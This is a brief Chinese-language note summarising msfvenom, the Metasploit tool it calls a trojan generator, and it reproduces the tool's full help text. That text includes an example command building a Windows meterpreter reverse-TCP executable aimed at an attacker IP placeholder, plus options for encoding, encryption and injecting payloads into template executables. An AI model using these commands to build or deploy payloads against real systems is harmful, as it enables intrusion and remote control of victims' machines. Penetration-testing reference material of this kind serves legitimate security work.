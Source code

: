 

### msfvenom小结

这个工具是msf用来生成木马的命令，其参数如下：

```
MsfVenom - a Metasploit standalone payload generator.
Also a replacement for msfpayload and msfencode.
Usage: /usr/bin/msfvenom [options] <var=val>
Example: /usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe

Options:
    -l, --list            <type>     List all modules for [type]. Types are: payloads, encoders, nops, platforms, archs, encrypt, formats, all
    -p, --payload         <payload>  Payload to use (--list payloads to list, --list-options for arguments). Specify '-' or STDIN for custom
        --list-options               List --payload <value>'s standard, advanced and evasion options
    -f, --format          <format>   Output format (use --list formats to list)
    -e, --encoder         <encoder>  The encoder to use (use --list encoders to list)
        --service-name    <value>    The service name to use when generating a service binary
        --sec-name        <value>    The new section name to use when generating large Windows binaries. Default: random 4-character alpha string
        --smallest                   Generate the smallest possible payload using all available encoders
        --encrypt         <value>    The type of encryption or encoding to apply to the shellcode (use --list encrypt to list)
        --encrypt-key     <value>    A key to be used for --encrypt
        --encrypt-iv      <value>    An initialization vector for --encrypt
    -a, --arch            <arch>     The architecture to use for --payload and --encoders (use --list archs to list)
        --platform        <platform> The platform for --payload (use --list platforms to list)
    -o, --out             <path>     Save the payload to a file
    -b, --bad-chars       <list>     Characters to avoid example: '\x00\xff'
    -n, --nopsled         <length>   Prepend a nopsled of [length] size on to the payload
        --pad-nops                   Use nopsled size specified by -n <length> as the total payload size, auto-prepending a nopsled of quantity (nops minus payload length)
    -s, --space           <length>   The maximum size of the resulting payload
        --encoder-space   <length>   The maximum size of the encoded payload (defaults to the -s value)
    -i, --iterations      <count>    The number of times to encode the payload
    -c, --add-code        <path>     Specify an additional win32 shellcode file to include
    -x, --template        <path>     Specify a custom executable file to use as a template
    -k, --keep                       Preserve the --template behaviour and inject the payload as a new thread
    -v, --var-name        <value>    Specify a custom variable name to use for certain output formats
    -t, --timeout         <second>   The number of seconds to wait when reading the payload from STDIN (default 30, 0 to disable)
    -h, --help                       Show this message
```
